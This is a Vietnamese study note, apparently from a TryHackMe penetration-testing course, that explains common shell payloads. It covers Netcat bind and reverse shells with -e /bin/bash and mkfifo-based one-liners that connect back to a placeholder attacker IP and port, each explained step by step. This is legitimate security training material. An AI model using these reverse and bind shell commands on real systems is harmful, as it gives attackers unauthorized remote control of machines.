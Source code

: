 Xem xét một số payload phổ biến sử dụng các công cụ đã đề cập trước đó.

**Netcat Bind Shell**

Trong một số phiên bản Netcat (bao gồm cả phiên bản Windows nc.exe có trong Kali tại /usr/share/windows-resources/binaries và phiên bản netcat-traditional trên Kali), có tùy chọn -e cho phép thực thi một tiến trình khi kết nối được thiết lập.

*Listener trên mục tiêu*:

    nc -lvnp <PORT> -e /bin/bash

Kết nối đến listener này bằng Netcat sẽ tạo một bind shell trên mục tiêu.

*Reverse Shell*:

    nc <LOCAL-IP> <PORT> -e /bin/bash

Lệnh này tạo một reverse shell trên mục tiêu.

Lưu ý: Tùy chọn -e không có sẵn trong hầu hết các phiên bản Netcat hiện đại vì nó được coi là không an toàn. Tuy nhiên, nó vẫn hoạt động trên Windows.

**Netcat Bind Shell trên Linux (Không dùng -e)**:

Trên Linux, có thể sử dụng lệnh sau để tạo bind shell mà không cần tùy chọn -e:

    mkfifo /tmp/f; nc -lvnp <PORT> </tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image8.png?raw=true)

Giải thích:

- mkfifo /tmp/f: Tạo một đường ống có tên tại /tmp/f.

- nc -lvnp < PORT > < /tmp/f: Khởi động Netcat listener và kết nối đầu vào của nó với đường ống.

- /bin/sh >/tmp/f 2>&1: Đầu ra của Netcat (các lệnh được gửi) được chuyển đến shell (sh), và đầu ra của shell được gửi trở lại đường ống.

- rm /tmp/f: Xóa đường ống sau khi kết thúc.

**Netcat Reverse Shell trên Linux (Không dùng -e)**:

Tương tự, để tạo reverse shell:

    mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

Lệnh này tương tự như trên, nhưng sử dụng cú pháp kết nối thay vì lắng nghe.

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image9.png?raw=true)
